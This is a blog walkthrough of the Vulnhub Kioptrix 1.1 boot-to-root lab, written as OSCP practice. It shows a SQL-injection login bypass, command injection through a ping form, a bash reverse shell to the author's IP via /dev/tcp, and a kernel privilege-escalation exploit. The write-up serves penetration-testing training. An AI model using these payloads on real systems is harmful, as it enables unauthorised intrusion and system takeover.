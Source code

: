 ```yaml
---
layout: post
title: Vulnhub - Kioptrix 1.1 Walkthrough
tags: [Hacking, Vulnhub, CTF]
---
```

Kioptrix 1.2 is a Boot to Root CTF available [here](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) on Vulnhub. It's difficulty is rated as Beginner. This VM is the second in the Kioprtix series and the second VM in my OSCP preparation series.  

The VM and my Kali instance are set up with NAT networking, so to discover the IP address of the VM I run netdiscover

![](/img/kioptrix1-2/netdiscover.png)

Once I obtain the IP, I then run a nmap scan and find the following ports: 22, 80, 111, 443, 631 and 3306. 
![](/img/kioptrix1-2/nmap1.png)
![](/img/kioptrix1-2/nmap2.png)

I visit the webpage hosted at port 80 and find a login panel 
![](/img/kioptrix1-2/login.png)

Having noted that there is a MySQL service running on port 3306 I attempted to manually conduct a SQLI attack with some common entires. I successfully get past the login panel by using the following

Username: admin
Password: 1' or '1'='1

I am taken to a page which has a form asking me to enter an IP address to ping. 
![](/img/kioptrix1-2/ping.png)

I enter the IP address of my kali box and another window loads which shows the result of my ping. I note that the output is that of running the ping command on a stardard linux box and I assume that this is very similar to the command injection in DVWA. To confirm this, I enter:

![](/img/kioptrix1-2/ping2.png)

{% highlight bash %}
192.168.5.129 && pwd
{% endhighlight %}

The results show that it accepts and prints my commands and confirms my assumptions
![](/img/kioptrix1-2/ping_result.png)

The next thing I do is to start a netcat listener using:
{% highlight bash %}
nc -lnvp 4444
{% endhighlight %}

I then enter the following into the Ping command form and wait to catch a shell. 
{% highlight bash %}
192.168.5.129 && bash -i >& /dev/tcp/192.168.5.129/4444 0>&1
{% endhighlight %}

![](/img/kioptrix1-2/shell.png)

This spawns a reverse shell as the user apache. I start my enumeration process and identify the kernel version as 2.6.9. I search through exploit-db and find a [Ring 0 Privilege Escalation](https://www.exploit-db.com/exploits/9542/) vulnerability that looks like it will work. I download the code and transfer it to the VM. I review the code and then compile as per the instructions. When I go to execute, I recieve an error 'no job control in this shell'. This means I do not have a full tty shell and I need to upgrade. I upgrade by using: 

{% highlight bash %}
python -c 'import pty; pty.spawn("/bin/sh")'
{% endhighlight %}

![](/img/kioptrix1-2/root.png)

The exploit runs and I confirm that I am root. I hunt around again in the mail folders, but there doesn't seem to be any hidden message in this VM - getting root is enough!

